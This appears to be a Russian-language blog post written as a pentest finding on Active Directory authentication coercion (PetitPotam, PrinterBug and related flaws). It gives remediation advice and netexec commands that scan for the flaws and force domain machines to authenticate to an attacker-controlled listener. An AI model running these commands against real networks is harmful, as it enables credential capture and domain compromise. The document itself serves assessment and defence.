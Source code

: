 ```yaml
---
layout: post
title:  "Coerce"
categories: jekyll update
image: /images/puppet.jpg
---
```


О принуждении к аутентификации

#### Недостаток
Возможность принуждения ряда машинных учетных записей домена, в том числе контроллеров доменов, к аутентификации на подконтрольном злоумышленнику сервере не ограничена.

#### Рекомендации
Отключить службу печати на всех объектах ЛВС, где использование указанной службы не требуется. Скорректировать (с учетом рекомендаций, приведенных в приложении) правила межсетевого экранирования на уровне приложений на объектах, входящих в состав домена

В среде Active Directory злоумышленник, используя технику принуждения к аутентификации,  может легитимно заставить атакованный узел аутентифицироваться на любом узле в сети.

Злоумышленник с целью принуждения к аутентификации может воспользоваться вызовом RPC-функций через протоколы: MS_RPRN, MS_EFSR, MS_DFSNM, MS_FSRVP.

Далее принудительная аутентификация производится через SMB.

Вы можете проверить наличие уязвимостей принуждения, таких как PetitPotam, DFSCoerce, PrinterBug, MSEven и ShadowCoerce, используя модуль утилиты `netexec` `coerce_plus`. Вы также можете использовать учетные данные для проверки этих уязвимостей. 

```
nxc smb <ip> -u '' -p '' -M coerce_plus
```

Если обнаружена уязвимость, вы можете установить IP-адрес LISTENER для принудительного подключения.

```
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>
```

Чтобы запустить все методы эксплойта одновременно, добавьте параметр ALWAYS=true, в противном случае он остановится, если базовое RPC-соединение сообщит об успешном принуждении.

```
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true
```

**MS_EFSR, уязвимость PetitPotam**
MS-EFSRPC — протокол удаленного шифрования файловой системы (EFSRPC). Уязвимость заключается в злоупотреблении функцией EfsRpcOpenFileRaw. Этот интерфейс доступен через `\PIPE\lsarpc, \PIPE\samr, \PIPE\lsass, \PIPE\netlogon, \PIPE\efsrpc`именованные каналы SMB.

Злоумышленник может проверить наличие уязвимости без аутентификации или с аутентификацией следующим образом.

```
netexec smb 192.168.56.0/24 -u '' -p '' -M petitpotam
```